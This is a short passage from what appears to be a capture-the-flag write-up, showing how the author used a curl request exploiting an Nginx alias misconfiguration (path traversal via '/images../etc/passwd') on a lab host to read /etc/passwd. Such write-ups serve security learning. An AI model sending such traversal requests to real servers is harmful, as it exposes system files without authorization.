 ![Alias Misconfiguration](images/hacktricks_nginx_lfi.png)

Looking back at the **Gobuster** scan I noticed an `/images` directory. Using **curl** I attempted to exploit the LFI vulnerability:\
`curl http://mountaineer.thm/wordpress/images../etc/passwd`

Success! I got the contents of `/etc/passwd`
![/etc/passwd](images/lfi_passwd.png)
